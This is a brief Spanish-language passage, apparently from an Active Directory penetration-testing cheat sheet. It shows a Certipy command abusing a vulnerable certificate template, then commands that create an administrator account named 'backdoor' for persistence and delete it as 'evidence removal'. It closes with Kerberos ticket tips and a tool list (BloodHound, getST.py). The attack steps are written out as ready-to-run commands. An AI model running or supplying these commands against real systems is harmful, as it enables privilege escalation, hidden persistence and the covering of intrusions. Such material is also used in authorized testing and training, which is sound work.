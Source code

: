 ```bash
certipy req -u usuario -p pass -ca ca.nombre.local -template vulnerable_template -dc-ip <IP> -target <IP>
```

## Persistencia y Limpieza

Crear cuenta:

```bash
net user backdoor Pass123! /add
net localgroup "Administradores" backdoor /add
```

Eliminar evidencia:

```bash
net user backdoor /del
```

## Recursos

* Añade entradas al `/etc/hosts` si es necesario para resolver nombres internos.
* Usa `klist`, `ktutil`, `export KRB5CCNAME` para manejar tickets Kerberos.
* Apóyate en herramientas como `ticketConverter.py`, `getST.py`, BloodHound y Certipy.
